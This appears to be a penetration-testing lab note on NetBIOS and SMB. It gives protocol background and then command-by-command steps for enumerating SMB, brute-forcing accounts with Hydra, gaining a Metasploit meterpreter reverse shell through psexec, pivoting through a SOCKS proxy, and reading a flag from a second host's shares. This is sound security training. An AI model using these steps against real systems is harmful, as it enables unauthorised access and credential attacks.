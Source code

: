 - NetBIOS and SMB are two different technologies, but they're related in the context of networking and file sharing on Windows networks.
- Let's break down each of them to understand their roles and how they differ.

NetBIOS (Network Basic Input/Output System)
- NetBIOS is an API and a set of network protocols for providing communication services over a local network. It's used primarily to allow applications on different computers to find and interact with each other on a network.
- Functions: NetBIOS offers three primary services:
	- Name Service (NetBIOS-NS): Allows computers to register, unregister, and resolve names in a local network.
	- Datagram Service (NetBIOS-DGM): Supports connectionless communications and broadcasting.
	- Session Service (NetBIOS-SSN): Supports connection-oriented communication for more reliable data transfers.
- Ports: NetBIOS typically uses ports 137 (Name Service), 138 (Datagram Service), and 139 (Session Service) over UDP and TCP.

SMB (Server Message Block)
- SMB is a network file sharing protocol that allows computers on a network to share files, printers, and other resources. It is the primary protocol used in Windows networks for these purposes.
- Functions: SMB provides features for file and printer sharing, named pipes, and inter-process communication (IPC). It allows users to access files on remote computers as if they were present locally.
- Versions: SMB has several versions:
	- SMB 1.0: The original version of SMB, which has several security vulnerabilities. It was used with older operating systems like Windows XP.
	- SMB 2.0/2.1: Introduced with Windows Vista/Windows Server 2008, offering improved performance and security.
	- SMB 3.0+: Introduced with Windows 8, Windows Server 2012, adding features like encryption, multichannel support, and improvements for virtualization.
- Ports: SMB generally uses port 445 for direct SMB traffic (bypassing NetBIOS) and port 139 when operating with NetBIOS.

SMB & NetBIOS Enumeration
- While NetBIOS and SMB were once closely linked, modern networks rely primarily on SMB for file and printer sharing, often using DNS and other mechanisms for name resolution instead of NetBIOS.
- Modern implementations of Windows primarily use SMB and can work without NetBIOS, however, NetBIOS over TCP 139 is required for backward compatibility and are often enabled together.

Practical Demonstration
- Environment Description
	- `cat /etc/hosts`
	- There are two custom entries present in the `/etc/hosts` file, for this instance, we will use the example of `10.4.30.129    demo.ine.local` and `10.4.26.4    demo1.ine.local`. One of these entries, `demo.ine.local` (Target 1) is going to be accessible by the local system, whereas the other entry, `demo1.ine.local` (Target 2) present needs to be pivoted to from the first one, `demo.ine.local`.
	- `ping demo.ine.local`, this would result in successful data transmission, since the host is reachable.
	- `ping demo1.ine.local`, this would result in failure to transmit data, since the host is unreachable and needs to be pivoted to.
- Port Enumeration
	- `nmap demo.ine.local`
	- The following ports would be open on `demo.ine.local`: 135/tcp (MS-RPC), 139/tcp (NetBIOS-SSN), 445/tcp (SMB) and 3389/tcp (RDP).
	- We may remember that NetBIOS SSN runs on port 139/tcp and is used for connection-oriented communication.
	- `nmap -sU -p 137 demo.ine.local`, we did this to scan the UDP port 137 on the target machine to determine if the NetBIOS Name Service is running and reachable.
	- The 137/udp port is in the `open|filtered` state.
- NetBIOS Name Enumeration using `nbtscan`
	- `whatis nbtscan`
	- `ifconfig`, to determine the subnet of the first target machine we want to enumerate information about.
	- `nbtscan 10.4.30.0/24`
	- Alternatively if that doesn't work, we can use the `nbstat` Nmap script instead:
		- `nmap -sU -sV -T4 --script nbstat.nse -p 137 -Pn -n 10.4.30.139`
- NetBIOS Name Enumeration using `nmblookup`
	- `nmblookup -A 10.4.30.139`
- SMB Enumeration
	- Port Enumeration for NetBIOS-SSN and SMB:
		- `nmap -sV -p 139,445 demo.ine.local`
	- SMB Version Enumeration using Nmap scripts:
		- `ls -al /usr/share/nmap/scripts/ | grep -e "smb-*"`
		- `nmap -p445 --script smb-protocols demo.ine.local`
		- The scripts results tell us that the SMB version running on the target machine is SMBv1.
		- Some vulnerabilities relevant to SMBv1 are null sessions.
	- SMB Security Mode Enumeration using Nmap scripts:
		- `nmap -p445 --script smb-security-mode demo.ine.local`
		- The result of this script tells us the account used by Nmap to perform enumeration on the target machine, the authentication level used by the target SMB service (user or share level authentication), the challenge response state (password only or hash/key based authentication), and message signing state.
	- Testing for SMB Null Session (Anonymous Access) using `smbclient`
		- `smbclient -L demo.ine.local`
		- If entering no password leads to a successful login, we can confirm that anonymous access are enabled on the SMB service instance.
		- If a null session is present, we can use it to further enumerate the SMB service, the first things shown on screen upon successful authentication are the share names and the share types, this can help us enumerate information about the shares present on the SMB server, and check if any IPC shares are present on the server.
		- Enumerating Windows users using Nmap scripts:
			- If null sessions are present, we can also perform username enumeration on the windows machine, just through SMB, using the Nmap `smb-enum-user` script.
			- `nmap -p445 --script smb-enum-users 10.4.30.139`
			- The result of this script tells us the hostname of the Windows machine, along with the usernames of the accounts present on it.
			- The RID of the user can help us determine the type of the account, a RID value of 500 stands for an Administrator user account.
- Bruteforcing SMB user accounts using Hydra
			- `nano users.txt`
			- `echo "admin" >> users.txt`
			- `echo "administrator" >> users.txt`
			- `echo "root" >> users.txt`
			- `hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`
- Authenticated Remote Code Execution using PsExec
	- `psexec.py administrator@demo.ine.local`
		- Password: `password1`
			- `whoami`
	- `msfconsole -q`
	- `search psexec`
	- `use exploit/windows/smb/psexec`
	- `show options`
	- `set RHOSTS demo.ine.local`
	- `set SMBUser administrator`
	- `set SMBPass password1`
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- Meterpreter Session:
		- `sysinfo`
		- `shell`
		- Windows Command Shell on Target 1:
			- `ping 10.4.26.41` Verifying that Target 2 is accessible to us via the access we have on Target 1.
		- Setting up routing to use Target 1 as a pivoting point for Target 2:
			- `run autoroute -s 10.4.26.0/20`
		- `background`
	- Setting up a system-wide SOCKS proxy:
		- It would be beneficial to setup a system-wide proxy on the attack machine to ensure that we can use the route we set up earlier on tools except Metasploit.
		- Meterpreter Session from the previous section:
			- `search socks`
			- `use auxiliary/server/socks_proxy`
			- The values to be used for this module are based on the installation of proxychains we have installed on our attack box, and can be looked up in the configuration for that tool.
			- `set VERSION 4a`
			- `set SRVPORT 9050`
			- `exploit`
		- `netstat -antp`, we should now check for a ruby program listening on port 9050 to ensure that the system-wide proxy has been setup correctly and is working as required.
	- Enumeration on Target 2 using Target 1 as a pivot point:
		- Performing an Nmap scan on Target 2 using the system-wide proxy we set up earlier:
			- `proxychains nmap demo1.ine.local -sT -Pn -sV -p 445`
			- The Nmap scan informed us that SMB is up and running on Target 2.
		- `sessions`
		- `sessions 2`
		- Meterpreter Session from the previous section:
			- `shell`
			- Command Shell on Target 1:
				- `net view 10.4.26.4`, since we already know from the Nmap scan we conducted earlier on Target 2 that SMB is running on it, we can try to view the shared available to us as the user logged in on Target 1 via this command.
				- This resulted in a access is denied message, since we are already running as NT Authority, we can try migrating to another process to ensure it works.
			- `migrate -N explorer.exe`
			- `shell`
			- Command Shell on Target 1:
				- `net view 10.4.26.4`
				- `net use D: \\10.4.26.4\Documents`
				- `net use K: \\10.4.26.4\K$`
				- `dir D:`
				- `type FLAG2.txt`
				- `dir K:`